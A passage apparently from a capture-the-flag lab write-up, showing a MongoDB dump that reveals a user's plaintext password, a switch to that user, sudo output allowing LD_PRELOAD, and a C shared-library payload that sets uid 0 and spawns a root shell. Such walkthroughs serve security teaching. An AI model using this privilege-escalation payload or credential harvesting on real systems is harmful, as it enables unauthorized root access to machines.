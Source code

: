 ```shell
        and anyone you share the URL with. MongoDB may use this information to make product
        improvements and to suggest MongoDB products and deployment options to you.

        To enable free monitoring, run the following command: db.enableFreeMonitoring()
        To permanently disable this reminder, run the following command: db.disableFreeMonitoring()
---
> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

Well we found the user's password let's login and see how can we escalate to root.

```shell
www-data@sky:/var/www/html/v2/profileimages$ su webdeveloper
Password:
webdeveloper@sky:/var/www/html/v2/profileimages$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```

Well sudo -l gives us just what we need to get root. If you don't know the `env_keep+= LD_PRELOAD ` means keep the environment variable LD\_PRELOAD when executing sudo. This environment variable defines the libraries that are getting loaded before all others so if we create our own malicious C library it will get executed. Let me show you.


```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
}
```
